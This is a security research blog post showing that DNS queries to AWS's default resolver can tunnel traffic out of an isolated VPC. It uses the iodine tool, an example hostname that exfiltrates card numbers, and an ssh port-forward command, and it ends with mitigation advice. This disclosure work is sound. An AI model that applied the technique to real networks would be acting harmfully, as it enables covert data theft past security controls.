 ```yaml
---
layout: post
title: "Using DNS to Break Out of Isolated Networks in a AWS Cloud Environment"
date: 2017-11-27 17:05:00
image: '/assets/img/aws_dns/'
description: Traffic destined to the AmazonProvidedDNS is traffic bound for AWS management infrastructure and does not egress via the same network links as standard customer traffic and is not evaluated by Security Groups.
tags: aws DNS
categories: Research
twitter_text: Using DNS to Break Out of Isolated Networks in a AWS Cloud Environment
---
```


TL;DR
=====

Customers can utilize AWS' DNS infrastructure in VPCs (enabled by
default). Traffic destined to the AmazonProvidedDNS is traffic bound for
AWS management infrastructure and does not egress via the same network
links as standard customer traffic and is not evaluated by Security
Groups. Using DNS exfiltration, it is possible to exfiltrate data out of
an isolated network.

-------------

DNS exfiltration allows an attacker to bypass outbound firewall rules,
and exfiltrate data or perform command and control activity with an
external service, by only using the DNS protocol. In this case, DNS
Exfiltration can even be used to exfiltrate data out of an isolated VPC
if AWS' managed DNS infrastructure is not disabled.

DNS Exfiltration can occur when an internal DNS server is configured to
forward external requests to upstream DNS servers. AWS allows the use of
their preconfigured DNS infrastructure (named AmazonProvidedDNS) by
default in all VPCs. An attacker can utilize this channel to send and
receive data with servers outside of the allowed environment. AWS
Customers can mitigate this risk by using their own DNS server and
turning off the preconfigured use of Amazon's DNS infrastructure.

How DNS Works
=============

To understand how DNS Exfiltration work, it is necessary to understand
how DNS works. If you already know this, [click here to skip to the next
section.](#How_DNS_Exfiltration_Works)

In many organizations, a network will have port 53(DNS) outbound blocked
on the firewall and instead, would have an internal DNS server to
resolve external domains. That Internal DNS server would usually have
port 53 outbound open to a higher level DNS server for queries that the
internal one cannot resolve. Let's look at how a DNS server would find
the Domain "yo.dejandayoff.com" for the first time.

![DNS Arch](/assets/img/aws_dns/1_dns.png)

1. The computer first makes a request to the internal DNS server to find yo.dejandayoff.com.
2. The DNS Server must first resolve the location of the Top Level Domain ".com." To do this, the DNS server asks the Root server for the .COM DNS Server.
3. Since the domain we are looking up is yo.dejandayoff.com, the DNSserver needs to find the location of dejandayoff.com's name server
4. Once the nameserver is found, the DNS server makes a request askingfor the A record of yo.dejandayoff.com
5. The nameserver responds with the IP
6. The DNS Server responds to the client with the IP

Note: There might be other DNS servers involved (like your ISPs DNS
server and its upstream DNS server)

How DNS Exfiltration Works<a name="How_DNS_Exfiltration_Works"></a>
==========================

If an attacker can control the nameserver for a domain, it is possible
for them to log requests and craft response for any subdomain lookups.
While the nameserver must accept standard DNS protocol requests, what it
does with that data does not have to be standard.

To demonstrate this, let's say an internal disgruntled employee would
like to exfiltrate thousands of credit card numbers out of a production
network that has no access to the external internet. One option would be
to use DNS exfiltration where the SSNs are prepended to the domain
lookup. For example:

4012888888881881.123.0808.visa.yo.dejandayoff.com

When the nameserver for yo.dejandayoff.com receives this request, it can
simply log the request and respond with a random IP. The attacker can
even include multiple cards per request or compress and send encoded
data to minimize the amount of request that have to be sent. Regardless
of the method, by having an internal DNS server that resolves external
domains, an attacker has two-way-communication.

The options here are endless, an attacker can create a local http proxy
that communicates solely through DNS or even a local network interface
that can tunnel all types of traffic through DNS. In fact, there is a
tool that was built for this exact reason! <http://code.kryo.se/iodine/>

How can attackers use this in AWS?
==================================

DNS exfiltration is not a new concept and the solution is not a simple
one. In a non-AWS environment one option would be to block all outbound
DNS connections (if you don't care about usability). Another option
would be to whitelist domains that are allowed to be resolved. The
simplest mitigating control would be to monitor DNS logs for
abnormalities (frequency of requests to domain, size of request, etc.)

AWS allows the use of the AmazonProvidedDNS by allocating an IP in each
subnet (VPC IPv4 network range, plus two) to simplify building out an
architecture
(<http://docs.aws.amazon.com/AmazonVPC/latest/UserGuide/VPC_Subnets.html#VPC_Sizing>).
Administrators are only allowed to enable and disable the DNS
infrastructure in each subnet. Per VPC flow log documentation this
management traffic is not logged to the bucket where customers store
logs so they do not fill a customer's bucket. Requests made to
AmazonProvidedDNS are management traffic and do not egress via the same
network links as standard customer traffic and are not evaluated by
Security Groups. Here is an image of the default DNS configuration when
a VPC is created and its settings:

![Allow DNS by default](/assets/img/aws_dns/2_VPCDefaultConfig_allowDNS.png)

Typically in AWS to make an outbound connection, two pieces are
necessary:

1. A route to an internet gateway or a NAT device
2. A security group that allows outbound communications on that port

However, using the methods outlined above, an attacker can bypass these
restriction by using the AmazonProvidedDNS. To demonstrate this
vulnerability, I have created a network in where there is a public
subnet and private subnet. The public subnet's sole purpose is to be
able to ssh into the private subnet (bastion host). The Public subnet
does have an internet gateway (to facilitate the ssh into the bastion
host). The private subnet does not contain an internet gateway or NAT
(only the DNS IP that Amazon opens in ALL subnets by default). The
security group configuration on the host in the private subnet allows
for SSH in from the bastion host only and contains absolutely no
outbound rules. This network layout can be found below:

![Network Diagram](/assets/img/aws_dns/3_network_in_aws.png)

And the configurations can be found below:

### Public subnet route table:

![Public subnet route table](/assets/img/aws_dns/4_public_subnet_routetable.png)

### Private subnet route table:

![Private subnet route table](/assets/img/aws_dns/5_private_subnet_routetable.png)

### Private host inbound security groups:

![Private host inbound security groups](/assets/img/aws_dns/6_OnlyAllowBationHostInbound.png)

### Private host outbound security groups:

![Private host outbound security groups](/assets/img/aws_dns/7_DenyAllOutbound.png)

To prove that I was not able to connect to the outside internet, here is
the private server receiving network timeouts to dejandayoff.com.

![Network Timeout](/assets/img/aws_dns/8_NetworkTimeout.png)

Once the environment was set up I created another server in a separate
VPC that would run the iodined service. Next, the private server used
its iodine client to connect to the server:

![Iodine Connect](/assets/img/aws_dns/9_iodineConnect.png)

With iodine connected, I was able to create an ssh tunnel (through the
iodine DNS tunnel) to google.com on port 8080 using the following
command:

```bash
ssh -L 8080:google.com:443 10.53.53.2
```

(10.53.53.0/24 is the subnet of the iodine tunnel, 10.53.53.2 is the
iodine server that I can ssh to)

Doing a curl on https://127.0.0.1:8080 allows us to hit google's
server!!

![Accessing Google](/assets/img/aws_dns/10_access_google.png)
==================================================================

While in the image google responds with a redirect, the purpose of the
demonstration was to show that a server with no outbound rules and no
internet gateway was able to reach external sites. From here, an
attacker could freely transfer data from an "airgapped" system with no
detection.

Mitigation
==========

Fortunately, Amazon allows the user to disable the AmazonProvidedDNS in
the VPC settings. Once disabled, the user will have to create their own
DNS server in the network using whatever software they would like. From
here, the custom DNS server would be able log relevant data and
whitelist only necessary websites.
